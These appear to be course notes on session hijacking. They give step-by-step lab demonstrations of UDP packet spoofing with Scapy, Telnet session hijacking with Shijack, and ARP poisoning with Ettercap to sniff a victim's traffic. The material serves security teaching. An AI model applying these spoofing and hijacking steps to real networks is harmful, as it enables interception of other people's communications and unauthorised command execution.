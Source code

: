 **Instructor: Ashwin Iyer**

#### Session Hijacking:

- Types:
  | Application Level           |   Network Level          |
  |-----------------------------|--------------------------|
  | Sniffing (MITM)             | Sniffing (MITM)          |
  | Session Fixation            | Predicting the sequence  |
  | Session ID Bruteforce       | UDP Session Hijacking    |
  | Session Donation            | DNS Session Hijacking    |
  | XSS                         | Telnet Session Hijacking |
  | Man in the Browser (MITB)   | ARP Poisoning            |
  |                             | IP Spoofing              |
  |                             | SSL Strip                |

---

#### UDP Hijacking (**/w Scapy**)

  - For demonstration purpose we'll create a **UDP server** using **netcat** as follows:
    > $ `nc -vv -n -u -l -p 7777`
    >
    > **listening on [any] 7777 ...**

  - And on the **victim's machine**` as follows:
    > $ `nc -vv -u <udp_server's_ip> 7777`
    >
    > **(UNKNOWN) [<udp_server's_ip>] 7777 (?) open**
    >
    > hi       **<------(This message is typed and sent by the victim to the server server)**

  - #### On the UDP server's side:
    > **hiconnect to [<udp_server's_ip>] from (UNKNOWN) [<victim's_ip>] 63868**    **<------(victim's port)**
    >
    > hi

  - Now using **Scapy** we can craft and spoof a UDP packet from the **attacker's machine** as follows:
    > $ `scapy3`
    >```py
    > >>> i=IP()
    > >>> i.dst="<udp_server's_ip>"
    > >>> i.src="<victim's_ip>"
    > >>> u=UDP()
    > >>> u.dport=7777
    > >>> u.sport=63868
    >```
    > The **victim's source port (63868)** is found from [here](#on-the-udp-servers-side) or in general in real-time the attacker uses **Wireshark** to find active UDP connection and find factors related to the attack. Continuing on,
    >```py
    > >>> payload="YOUHAVEBEENPWNED"
    > >>> packet=i/u/payload
    > >>> packet.display()
    > >>> send(packet)
    >```

  - #### After sending the spoofed packet the following would be seen on the UDP server's side:
    > YOUHAVEBEENPWNED **<------(Spoofed packet payload received by the UDP server)**

---

#### Telnet Hijacking (/w Shijack):
  - Telnet will not check the source IP address from the received packets, and using that we can sniff network and get a sequence of it to start our attack using a tool called [Shijack](https://packetstormsecurity.com/files/24657/shijack.tgz.html)
    - First we connect the **victim's machine** to the telnet server using the following command:
      > $ `telnet <server_ip>`
    - Then we use `shijack-lnx` on the **attacker's machine** to hijack the telnet session as follows:
    - > $ `./shijack-lnx <interface> <spoofed_victim's_ip> <victim's_port> <server's_ip> 23`
      >
       Here the **<spoofed_victim's_ip>** and **<victim's_port>** can be found using a packet capture tool like **Wireshark**.

    - Now on the attacker's machine there appears a message:
      > Got packet! SEQ = 0x\<random_sequence_number\> ACK = 0x\<random_ack_number\>
      >
      which means we've hijacked the session. To check that we can enter a command like `mkdir pwned` and see whether the folder `pwned` is being created on the telnet server

---

#### ARP Spoofing (/w Ettercap):
  > Tricking Host A(generally a **victim's machine**) by saying that the attacker is Host B(generally a **target router**) and tricking Host B by saying that the attacker is Host A. This in result creates a change in the ARP table of both the Host A and B.

-  To perform ARP spoofing we'll use the **Ettercap** GUI tool present by default in most penetration testing linux distros as follows:
    > **[CLICK]** <kbd>...</kbd> > <kbd>Hosts </kbd> > <kbd>Scan for hosts</kbd>

    After scanning all hosts we need to list them down:
    > **[CLICK]** <kbd>...</kbd> > <kbd>Hosts</kbd> > <kbd>Hosts list</kbd>

    Now we need to add the **gateway(generally the router)** as Target 1.
    
    So **[SELECT]** the gateway from the Host list and **[CLICK]** <kbd>Add to Target 1</kbd>.

    Then the target machine, so **[SELECT]** the target ip from the Host list and **[CLICK]** <kbd>Add to Target 2</kbd>.

    Finally **[CLICK]** <kbd>🌐</kbd> and check the following param:
      - [x] Sniff remote connections.
      - [ ] Only poison one-way.
    
    After this the information send from the victim's machine that's unencrypted can be seen in **Ettercap**. Also encrypted communication channel communicating, their headers can be seen using **Wireshark** (unless a VPN is not used by the victim!) which at least lets us know what all websites are being visited by the victim.

---
